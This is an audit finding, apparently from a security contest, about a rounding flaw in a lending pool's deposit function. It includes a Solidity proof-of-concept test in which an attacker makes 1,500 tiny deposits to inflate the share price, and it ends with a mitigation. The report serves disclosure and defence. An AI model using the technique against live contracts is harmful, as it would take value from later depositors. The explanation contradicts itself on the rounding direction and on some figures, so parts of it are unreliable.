 Bouncy Banana Aardvark

High

# An Attacker Can Exploit the Deposit Function to Inflate Share Prices

### Summary

The flaw in the `deposit` function will cause significant financial disadvantage for new depositors as an attacker will exploit the rounding error in share calculations to inflate the share price. The flawed calculation will cause an increase in the share price, which means new depositors will receive fewer shares for their deposits.

### Root Cause

In `Pool.sol:322`, the deposit function rounds down when calculating the number of shares to issue, which causes an increase in the share price.
https://github.com/sentimentxyz/protocol-v2/blob/04bf15565165396608cc0aedacf05897235518fd/src/Pool.sol#L322

### Internal pre-conditions

1. `totalDepositAssets` of the pool needs to be small enough to make rounding errors significant.

### External pre-conditions

No external pre-conditions are required.

### Attack Path

1. An attacker deposits assets into the pool in multiple small transactions.
2. Each deposit triggers the rounding-up mechanism, slightly increasing `totalDepositShares` without a proportional increase in `totalDepositAssets`.
3. Over several iterations, the share price becomes inflated due to the increased `totalDepositAssets` and relatively smaller increase in `totalDepositShares`.
4. After the attack, new depositors receive far fewer shares for their assets than pre-attack conditions.

### Impact

1. The share price of the pool becomes significantly inflated.
2. New depositors receive significantly fewer shares for their assets compared to the pre-attack conditions.
3. The protocol’s integrity is compromised, leading to a loss of trust and fairness.

### PoC

```solidity
    function test() public {
        uint assets;
        uint shares;
        address attacker = makeAddr("attacker");

        // the user deposits 10000 assets to linearRatePool
        vm.startPrank(user);
        asset1.mint(user, 1000);
        asset1.approve(address(pool), 1000);

        pool.deposit(linearRatePool, 1000, user);
        vm.stopPrank();

        // totalDepositAssets is 1000 and totalDepositShares is 1000. the share price is 1.
        (,,,,,,,,, assets, shares) = pool.poolDataFor(linearRatePool);
        assertEq(assets, 1000);
        assertEq(shares, 1000);

        // the user2 borrows 100 assets from pool.
        vm.prank(registry.addressFor(SENTIMENT_POSITION_MANAGER_KEY));
        pool.borrow(linearRatePool, user2, 100);

        uint256 time = block.timestamp + 1 days;
        vm.warp(time + 86_400 * 7);
        vm.roll(block.number + ((86_400 * 7) / 2));
        pool.accrue(linearRatePool);

        // totalDepositAssets is 1003 and totalDepositShares is 1000 after 7 days. the share price is 1.003.
        (,,,,,,,,, assets, shares) = pool.poolDataFor(linearRatePool);
        assertEq(assets, 1003);
        assertEq(shares, 1000);

        // the attacker deposit 1500 times per 2 asset
        vm.startPrank(attacker);
        asset1.mint(attacker, 10000);
        asset1.approve(address(pool), 10000);

        for(uint i = 0; i < 1500; i++) {
            pool.deposit(linearRatePool, 2, attacker);
        }
        vm.stopPrank();

        // totalDepositAssets is 4003 and totalDepositShares is 2500. the share price is 1.6012.
        (,,,,,,,,, assets, shares) = pool.poolDataFor(linearRatePool);
        assertEq(assets, 4003);
        assertEq(shares, 2500);
    }
```

### Mitigation

To mitigate this issue, consider implementing more precise rounding mechanisms or adding limits to the amount of assets that can be deposited in a single transaction. This could help reduce the impact of the rounding error and prevent attackers from inflating the share price.